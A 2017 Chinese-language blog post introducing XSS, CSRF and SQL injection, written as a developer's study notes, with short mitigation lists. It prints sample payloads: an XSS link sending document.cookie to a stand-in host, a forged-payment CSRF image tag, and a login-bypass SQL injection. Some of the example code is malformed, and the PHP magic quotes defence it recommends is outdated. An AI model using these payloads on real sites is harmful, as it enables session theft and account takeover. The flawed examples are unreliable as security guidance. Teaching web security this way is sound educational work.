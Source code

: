 ```yaml
---
title: 前端安全问题初探
date: 2017-09-30 07:42:03
tags: 前端
---
```

一直在前端安全方面没什么了解，曾经也遇到过某些安全问题，但没怎么去了解，只是简单的处理了问题；现在简单的学习一下关于前端安全的一些问题。

<!-- more -->

### 一、XSS
XSS（Cross-site scripting，其实应该简称CSS，不过重名了。尴尬）称为跨站脚本。
维基百科解释：XSS是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。

XSS的大名估计很多人都知道，我也只是听说而已，一直以来不怎么了解他是如何工作的，也不太清楚他的危害。有一天得到后端人员的日志记录，发现了某些人测试我们网页的url，我才有所理解。
```
http://www.xxxx.com?id="><script>alert("xxxx")<script>
```
之前又把id渲染到页面上使用的习惯，比如如下代码:
```
<input id="id" type="hidden" value="{$id}"/>
```
如果后端没有进行过滤等处理的话，这时候展示出来的代码就是
```
<input id="id" type="hidden" value=""><script>alert("xxxx")<script>"/>
```
用户如果点击了上述的url，可能就会被他人恶意获取信息，比如说:

```
http://www.xxxx.com?id="><script>window.open="http://www.yyyy.com?co="+document.cookie<script>
```
或者是去个什么小网站也是可以的:
```
http://www.xxxx.com?id="><script>window.location="http://www.xiaowangzhan.com"<script>
```
当然这种攻击的范围都较小，需要某个用户点击特定的链接才行。还有一种情况是在上传内容时加入脚本，如果没有进行过滤等处理，所有查看文章的人都会受到影响，这种方式波及的范围较大。

#### 防范方式：

 - 前端尽量避免输出query参数
 - 后端参数过滤和编码处理

### 二、CSRF
CSRF（Cross-site request forgery）称为跨站请求伪造。
维基百科解释： 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。 跟跨网站脚本（XSS）相比，XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户网页浏览器的信任。

一个简单的栗子，比如A用户登录了xx银行的网站，然后访问了M网站，M网站内被放入了一个图片

```
<img src="http://www.xx.com/payamount=100&for=attacker"/>
```
这是攻击者就利用A用户未过期的身份信息进行了支付处理。当然这是一种理想情况，银行不会这么简单就让你支付的。不过伪造用户进行访问还是会带来很大的危害，比如删除用户的内容，获取用户隐私内容等等。

#### 防范方式:

 - Referer验证
 - token校验

### 三、SQL注入
维基百科:SQL攻击（SQL injection），简称注入攻击，是发生于应用程序之数据库层的安全漏洞。简而言之，是在输入的字符串之中注入SQL指令，在设计不良的程序当中忽略了检查，那么这些注入进去的指令就会被数据库服务器误认为是正常的SQL指令而运行，因此遭到破坏或是入侵。

举个栗子：
某个网站的登录验证的SQL查询代码为
```
sqlStr = "SELECT * FROM user WHERE (username = '" + userName + "') and (password = '"+ passWord +"');"
```
用户名填写
```
userName = "jack'
```
密码填写

```
passWord = "1' OR '1'='1";
```
导致原本的SQL字符串
```
sqlStr = "SELECT * FROM users WHERE (username = 'jack') and (password = '1' OR '1'='1');"
```
也就是实际上运行的SQL命令会变成下面这样的
```
sqlStr = "SELECT * FROM users WHERE (username = 'jack');"
```
我就可以使用jack的账号登录了。

数据库注入攻击的危害很大，可能导致用户信息被盗，丢失等问题。
#### 防范方式（参考维基百科）:

 - 在设计应用程序时，完全使用参数化查询（Parameterized Query）来设计数据访问功能。
 - 在组合SQL字符串时，先针对所传入的参数作字符取代（将单引号字符取代为连续2个单引号字符）。
 - 如果使用PHP开发网页程序的话，亦可打开PHP的魔术引号（Magic
   quote）功能（自动将所有的网页传入参数，将单引号字符取代为连续2个单引号字符）。


over...